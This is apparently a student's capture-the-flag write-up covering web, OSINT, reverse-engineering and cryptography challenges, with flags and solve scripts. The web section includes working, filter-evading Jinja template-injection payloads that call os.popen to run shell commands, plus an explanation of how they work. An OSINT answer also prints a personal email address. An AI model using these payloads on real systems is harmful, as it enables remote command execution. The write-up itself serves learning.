

# Web Exploitation

## Login Panel

the starting of the challenge consisted of a login pannel that we need tocorrectly aplly the kogin details to get the flag
for that when we inspect the file we het two hask values if we use hash cracker to solve that we  get login details 

### flag

v1t{p4ssw0rd}

### solve 
after looking at the hash i used the online haskcraker to solve for the flag
48d2a5bbcf422ccd1b69e2a82fb90bafb52384953e77e304bef856084be052b6
48d2a5bbcf422ccd1b69e2a82fb90bafb52384953e77e304bef856084be052b6	sha256	p4ssw0rd
the first hash was obvious that it was v1t{


## Stylish Flag

in this the flag was hidden if we read the html of the file carefully we see that the class is hidden for the flag. so  what we do is that we go 
inspect click the inspect button and edit the html to remove hidden from there

### flag
v1t{H1D3OUT_CSS}


### solve
when i first saw the challenge i knew that somechanges had to be made either to the html or the css file i read  bot the files carefully and saw that in the html file in the bottom div it is marker with hidden so i removed that and normally ran to see and the flag came on the screen as green pixalaed boxes on the right


##Tiny Flag
spent time in this to find the flag by writng java scrip to increase the size of very small parts to fewpixls but it was very hard and no value showed up.

### flag
v1t{T1NY_ICO}


### Solve
i tried a lot of methos and they failed so i went to the surce to check for any missed out error but i couldnt find so so i went to the favion.co of the file viewed it raw and got the flag.


## Mark the Lyrics
at first i was very confusd.i could not undertand what to do. atfter that i coverted the veitnamese kyrics into english to understand it. 

### flag
v1t{MCK-cool-ooh-yeh}

### Solve

coverted all the vietnamese lyrics in english and saw that we still coundnt figure out so after that i went to the source and saw the html and saw the file was surrounded by the markdown so i combined all such release and put the value in the english markdowed test.i combined that and removed.


## 5571

this is a server side templeate ingection of jinga .

## flag 


### Solve
i first read the task went to inspect and saw the src for the blocked content and saw that we cannot use a lot of syntax that would essentially be used in the explate so i url encoded {7*7} so it can the enswer 49. same way i url ecoded {7*"7"} so i got knoe it was jinja. after that i knew the standard payload that is used to i went to the onsecutity site and got the payload. after that i passed these payloads to get the flag
```bash
%7B%7Bconfig|attr(["","","c","l","a","s","s","",""]|join)|attr(["","","i","n","i","t","",""]|join)|attr(["","","g","l","o","b","a","l","s","",""]|join)|attr(%22get%22)([%22o%22,%22s%22]|join)|attr([%22p%22,%22o%22,%22p%22,%22e%22,%22n%22]|join)(%22id%22)|attr([%22r%22,%22e%22,%22a%22,%22d%22]|join)()%7D%7D


%7B%7Bconfig|attr(["","","c","l","a","s","s","",""]|join)|attr(["","","i","n","i","t","",""]|join)|attr(["","","g","l","o","b","a","l","s","",""]|join)|attr(%22get%22)([%22o%22,%22s%22]|join)|attr([%22p%22,%22o%22,%22p%22,%22e%22,%22n%22]|join)([%22l%22,%22s%22,%20%22-a%22]|join)|attr([%22r%22,%22e%22,%22a%22,%22d%22]|join)()%7D%7D


%7B%7Bconfig|attr(["","","c","l","a","s","s","",""]|join)|attr(["","","i","n","i","t","",""]|join)|attr(["","","g","l","o","b","a","l","s","",""]|join)|attr(%22get%22)([%22o%22,%22s%22]|join)|attr([%22p%22,%22o%22,%22p%22,%22e%22,%22n%22]|join)(%22cat%20flag.txt%22)|attr([%22r%22,%22e%22,%22a%22,%22d%22]|join)()%7D%7D
```

```bash
onfig
— the template variable config (often Flask’s app config object) available in the template context.

|attr("class") → config.__class__
— uses Jinja’s attr filter to access the __class__ attribute of the config object.

|attr("init") → config.__class__.init
— accesses the init attribute on the class (in CPython object model __init__ often exists; with obfuscation they may have omitted underscores, but idea is to get to object internals). Many payloads use __init__ or other dunder attributes to reach Python internals.

|attr("globals") → .init.globals
— reaches the class/function globals dictionary — a powerful object containing references to modules and builtins.

|attr("get")(["o","s"]|join) → .globals.get("os")
— calls globals.get("os") to obtain the os module object from the globals dict.

|attr("popen")("cat flag.txt") → os.popen("cat flag.txt")
— uses os.popen() to execute a shell command and return a file-like object for its stdout.

|attr("read")() → .read()
— reads the command output and returns it as the template result, which the attacker sees rendered in the HTTP response
```

in this  i used url encoding anf converted all the context to a list format. this paased the payload easily and got me the flag.

when i ran the second payload it gave me a bunch of information about the file in the system in that i went and cat the flag.txt


# OSINT

## Among US University

in this we see in the expample given that the universilty name we need the first letter of those
so in the image we have we look at that


### flag
v1t{UIT}


### solve

in the question we see the vietnamese written on the top we note that down and we translate that to english we 
“TRƯỜNG ĐẠI HỌC CÔNG NGHỆ THÔNG TIN”

That translates to University of Information Technology, which is part of Vietnam National University, Ho Chi Minh City (VNU-HCM).

So the acronym hidden here is UIT.
and thats how we get the flag

## Dusk Till Dawn

in this we have a picture of a duck and we need to find the location of the park 

### flag 
v1t{Ivey_park}

### solve

searched the image on google by google image saw a lot of instagram photos checked that it was thames river so looked at parks in thames in london cause that picture was from london got the parks chcekd thier photo gallery and ivey park was the one that had the picture in its picture gallery. it had the same image.


## Forgotten inventory

we nneded to find the email of the person who mailed the inventory

### flag
v1t{david.j.hoskins@us.army.mil}


### solve

we searched the internet for the iventory and we come across this email address and we put that as the flag


## Duck Company

in this we have a picture of a duck and we need to find out from where is the duck  like the site name

### flag
v1t{dcuk.com}

### solve 
kind of got accidently i wanted to search duck.com but i did a typo and wrote dcuk.com and got the duck and got the flag


## 16

this took time 

### flag

 v1t{55.592169,37.689097}
 
### solve

i first searched the internet and got a site that had exact the same picture. it was a auction site so i went to the the site. and got this
Red Banner Military Unit 61608 - 100 Years (Communication) Space
then i checked the document from the military unit 61608 i got the pdf i opened that and got the exact lat and long values.


# Reverse Engineering

## Duck RPG

in this we got two bat file i read that file and ran the code using wine. but we need to actually run the code

### flag

v1t{p4tch_th3_b4tch_t0_g3t_th3_s3cr3t_3nd1ng}

### solve
we pathched the three fragments together and got the unlocktheduck  unlockthegoose was also there but that was the value that we got just to finish the game for getting the flag we beeded this value we also needed the hash value of the game to run the game and pass te flag password directly so we got that from the results.bat file then ran 
```bash
set "full=%frag1%%frag2%%frag3%"
set "self=%~f0"
set "hash="
for /f "skip=1 tokens=1" %%H in ('certutil -hashfile "%self%" SHA256') do (
    call set "hash=%%H"
    goto result
)

:result
call result.bat !full! !hash!
exit /b
it says here full =frag1+frag2+frag3
and we need both full anf hash
# Make sure WINE is properly configured
wine cmd /c result.bat unlocktheduck 8392dcc7b6fdebd5a70211c1e21497a553b31f2c70408b772c4a313615df7b60
mahek@mahek-Inspiron-14-5430:~/Downloads$ wine cmd /c game.bat
==========================
Battle: Duck Mage
==========================
Your HP: 3
Duck Mage HP: 30

1. Attack
v1t{p4tch_th3_b4tch_t0_g3t_th3_s3cr3t_3nd1ng}

```

the challenge thells us that there is a call  that we need to make from the frag1+frag2+frag3 and we have that fragment then we need the hash whic is given in the result .bat file use that and make the call we get the flag.


## Python Obf

in this when i looked at the file i saw that three things had taken place the string was reversed, the string was encode on base 64 and had been zlib compress. 


### flag
v1t{d4ng_u_kn0w_pyth0n_d3bugg}

### solve
```bash
import base64, zlib

string = '==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'

while True:
    try:
        string = string[::-1]
        decoded_bytes = base64.b64decode(string)
        decompressed_bytes = zlib.decompress(decoded_bytes)        
        string = decompressed_bytes.decode()[11:-3]        
        print(string)
    except Exception as e:
        print(f"Error: {e}")
        break

```

we write a script which has string reversal then base 64 decode then zlip decompresser. and we then read the flag


# Cryptography

## Lost Some binary

so first then i did after reasing the file was converted the binary into different formats. i tries converting to hexcode first to get something meaningfull but got nothing so then i converted to ascii value and got something meaningful.

### flag
v1t{LSB:>}

### solve 

i converted to ascii value and got this
```bash
Hiii man,how r u ?Is it :))))Rawr-^^[]  LSB{><}!LSB~~LSB~~---v1t  {135900_13370}

```

from this we get to know that we need to do something with the last bit so we look at that and group that 
```bash
binary_data = """01001000 01101001 01101001 01101001 00100000 01101101 01100001 01101110 00101100 01101000 01101111 01110111 00100000 01110010 00100000 01110101 00100000 00111111 01001001 01110011 00100000 01101001 01110100 00100000 00111010 00101001 00101001 00101001 00101001 01010010 01100001 01110111 01110010 00101101 01011110 01011110 01011011 01011101 00100000 00100000 01001100 01010011 01000010 01111011 00111110 00111100 01111101 00100001 01001100 01010011 01000010 01111110 01111110 01001100 01010011 01000010 01111110 01111110 00101101 00101101 00101101 01110110 00110001 01110100 00100000 00100000 01111011 00110001 00110011 00110101 00111001 00110000 00110000 01011111 00110001 00110011 00110011 00110111 00110000 01111101"""

bytes_list = binary_data.split()


lsb_bits = ''.join(b[-1] for b in bytes_list)


chars = [chr(int(lsb_bits[i:i+8], 2)) for i in range(0, len(lsb_bits), 8)]
message = ''.join(chars)

print(message)

```


## RSA 101

for this we see its a rsa problem if we see that m is less than n (here the n is greater than the value)so we need to add the value of m to get the value

### flag
v1t{RSA_101_b4by}

### solve
```bash
mahek@mahek-Inspiron-14-5430:~$ /bin/python3 /home/mahek/Downloads/de.py
8520595641234233889906203467245297960090
v1t{RSA_101_b4by}
import sympy
p=101
q=313846144900241708687128313929756784551
n = 31698460634924412577399959706905435239651
e = 65537
c = 23648999580642514140599125257944114844209

phi=(p-1)*(q-1)
d=pow(e,-1,phi)
value=pow(c,d,n)
print(value)
actual=value+n
hex_str=hex(actual)[2:]
flag=bytes.fromhex(hex_str).decode()
print(flag)


 you meant '==' or ':=' instead of '='?
mahek@mahek-Inspiron-14-5430:~$ /bin/python3 /home/mahek/Downloads/modulo.py
{101: 1, 313846144900241708687128313929756784551: 1}
Traceback (most recent call last):
  File "/home/mahek/Downloads/modulo.py", line 11, in <module>
    d = mod_inverse(65537, phi)
  File "/usr/lib/python3/dist-packages/sympy/core/numbers.py", line 550, in mod_inverse
    raise ValueError('inverse of %s (mod %s) does not exist' % (a, m))
ValueError: inverse of 65537 (mod 0) does not exist
mahek@mahek-Inspiron-14-5430:~$ /bin/python3 /home/mahek/Downloads/modulo.py
{101: 1, 313846144900241708687128313929756784551: 1}
8520595641234233889906203467245297960090
b'\x19\n/\x07i\x0fW8k\xce7\xc0\x8e\t\xf1\x84\x9a'
mahek@mahek-Inspiron-14-5430:~$ /bin/python3 /home/mahek/Downloads/modulo.py
8520595641234233889906203467245297960090
b'\x19\n/\x07i\x0fW8k\xce7\xc0\x8e\t\xf1\x84\x9a'
mahek@mahek-Inspiron-14-5430:~$ /bin/python3 /home/mahek/Downloads/de.py
8520595641234233889906203467245297960090
v1t{RSA_101_b4by}
mahek@mahek-Inspiron-14-5430:~$ ^C

```

this is like a normal rsa question but only we need to be aware that the n value become was greater than the value here the rsa algorithm would not be able to run. so we nned to do this way.


## Misconfigured RSA
n is generally not prime but in this case it is so the get the factors p and q is tough

### flag
v1t{f3rm4t_l1ttl3_duck}

### solve

```bash
n = 148900953097814724338206947679223698832179691968218755697733749707084556942286184505525791780949441847197006147827388400754499224336852575956050210608024912280019773833889546324355353746095214275985515374968532505153145975517881297436944244066461866248895871696012367810254055557824874852294865749524482337551
e = 65537
c = 107217087223013352864419426588613439434708031699522027786711684217439431898186052583896596846379575153070982123347045493427454234913154021933229641985591412104222934496019950746514726800406326146713516918611779367873873294259462206805554572977819244626333164240237423211396727885901436510649294574529712562954

from sympy import factorint, mod_inverse

factors = factorint(n)
print("Factors:", factors)

if len(factors) == 1:
    print("n appears to be prime — misconfigured RSA.")
    phi = n - 1
else:
    primes = list(factors.keys())
    p, q = primes[0], primes[1]
    phi = (p - 1) * (q - 1)

d = mod_inverse(e, phi)
m = pow(c, d, n)
print("Decrypted integer:", m)

hex_m = hex(m)[2:]
if len(hex_m) % 2:
    hex_m = '0' + hex_m
print("Plaintext (raw bytes):", bytes.fromhex(hex_m))
mahek@mahek-Inspiron-14-5430:~$ /bin/python3 /home/mahek/Downloads/de.py
Factors: {148900953097814724338206947679223698832179691968218755697733749707084556942286184505525791780949441847197006147827388400754499224336852575956050210608024912280019773833889546324355353746095214275985515374968532505153145975517881297436944244066461866248895871696012367810254055557824874852294865749524482337551: 1}
n appears to be prime — misconfigured RSA.
Decrypted integer: 11320657929099562046850213072766143248835856086834834301
Plaintext (raw bytes): b'v1t{f3rm4t_l1ttl3_duck}'


```

In normal RSA:

n=p×q
n=p×q

is composite, not prime.

If your n is prime (as here), the RSA system is misconfigured — hence the challenge name “Misconfigured RSA”.
In that case, the private exponent d can be computed using Fermat’s little theorem with

ϕ(n)=n−1
ϕ(n)=n−1

instead of (p−1)(q−1).


## Modulo Mystery

### flag
v1t{m0dul0_pr1z3}

### solve
import random

inp = input("Enter plaintext: ")

def encrypt(pt):
    key = random.randint(1, 100)
    results = [str(ord(ch) % key) for ch in pt]
    print("Encrypted:", " ".join(results))
    with open('flag.enc', 'w') as f:
        f.write(" ".join(results))
    return key

k = encrypt(inp)
print("Key (for debug):", k)
 difference between them
 
 
 
 # decode_with_key.py
enc = [16,49,14,21,7,48,49,15,6,48,44,10,12,49,20,0,23]
key = 1
while(key<100):
   # replace with known key if you have it
 PRINTABLE_RANGE = range(32,127)

 decoded = []
 for t in enc:
    candidates = [chr(v) for v in PRINTABLE_RANGE if v % key == t]
    if len(candidates) == 1:
        decoded.append(candidates[0])
    else:
        # pick smallest printable if ambiguous (heuristic)
        decoded.append(candidates[0] if candidates else '?')
 print("".join(decoded))
 print(key)
 key=key+1


got few the first value and then saw other  comibation after that by bruteforcing that. this code is not the effecient ay has we get only the first match after i made other combinations and tried.


